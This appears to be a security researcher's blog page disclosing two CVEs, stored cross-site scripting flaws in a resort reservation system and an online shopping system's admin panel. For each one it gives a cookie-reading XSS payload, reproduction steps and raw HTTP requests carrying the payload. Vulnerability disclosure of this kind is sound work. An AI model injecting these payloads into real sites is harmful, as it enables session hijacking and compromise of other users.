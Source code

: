 ```yaml
---
title: CVE POC (2023)
date: 2023-06-19 03:24:23 +0530
categories: [cve, poc]
tags: [cve]
---
```



## CVE-2023-3309

##### TITLE: **Sourcecodester's resort management system v1.0 is vulnerable to authenticated stored cross-site scripting vulnerability via room_no parameter on page=manage_room.**

##### DATE: **18 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **www.sourcecodester.com**

##### SOFTWARE LINK: [**Resort Revervation System**](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Stored Cross-site scripting**

##### PAYLOAD [1]: `<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>`

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3309)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3309)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3309/)

##### Proof Of Concept:

```
1. Open http://localhost/php-sqlite-rrs/login.php and authenticate yourself with valid credentials.
2. Click on Room List
3. Then click on Add room
4. Input the [1] in Room/Cottage Number field and other data in other fields
5. Save it!
```

##### VULNERABLE RAW REQUEST:

```
POST /php-sqlite-rrs/Master.php?a=save_room HTTP/1.1
Host: 192.168.1.2
Content-Length: 242
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.2
Referer: http://192.168.1.2/php-sqlite-rrs/?page=manage_room
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=hkuargeb92g5kqkk0mvpajm62u
Connection: close

formToken=%242y%2410%24tDECmereqkQhta%2Fe7BBYL.drDbK8XX1ciC29umwsu4G%2FhCI3uePKe&room_id=&room_no=a%3Cscript%2F%22%3Ca%22%2Fsrc%3Ddata%3A%3D%22.%3Ca%2C%5Bdocument.cookie%5D.some(confirm)%3E&name=Test007&description=Test007&price=1337&status=1
```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 12 Jun 2023 06:13:37 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 66
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":"success","msg":"New Room has been addedd successfully"}
```

[![cve-2023-3309.png](https://i.postimg.cc/0NZ0NcZ4/kr1shna4garwal-2023-06-19-at-11-13-51-AM.png)](https://postimg.cc/p9hFGQwQ)

---

## CVE-2023-3311

##### TITLE: **PuneethReddyHC's Online Shopping System Advanced v1.0 is vulnerable to authenticated stored cross-site scripting vulnerability via first_name parameter on addsuppliers.php inside the admin panel.**

##### DATE: **18 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **https://github.com/PuneethReddyHC/online-shopping-system-advanced**

##### SOFTWARE LINK: [**Online Shopping System Advanced**](https://github.com/PuneethReddyHC/online-shopping-system-advanced)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Stored Cross-site scripting**

##### PAYLOAD [1]: `<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>`

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3311)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3311)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3311/)
- [**VULDB.COM**](https://vuldb.com/?id.231807)

##### Proof Of Concept:

```
1. Open http://localhost/http://192.168.1.8/online-shopping-system-advanced-master/admin/login.php and authenticate yourself with valid credentials.
2. Click on Add Users
3. Input the [1] in first name field field and other data in other fields
4. Add it!
```

##### VULNERABLE RAW REQUEST:

```
POST /online-shopping-system-advanced-master/admin/admin/addsuppliers.php HTTP/1.1
Host: 192.168.1.8
Content-Length: 847
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarya3WwmvOFiAFcRzBX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.8/online-shopping-system-advanced-master/admin/admin/addsuppliers.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=8n0jmvb9o3bqirs2f0ob5svs8s
Connection: close

------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="first_name"

<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="last_name"

sksrejreni
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="email"

h4x0r@thisdoesntexist.com
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="password"

23020kdfjeit1
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="phone"

1234567890
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="city"

thanjavur
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="country"

india
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="btn_save"


------WebKitFormBoundarya3WwmvOFiAFcRzBX--

```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 19 Jun 2023 12:41:27 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 6840
Connection: close
Content-Type: text/html; charset=UTF-8

....

```

[![CVE-2023-3311](https://i.postimg.cc/xCpHrr2G/kr1shna4garwal-2023-06-19-at-6-20-02-PM.png)](https://postimg.cc/Hc5j5hjj)
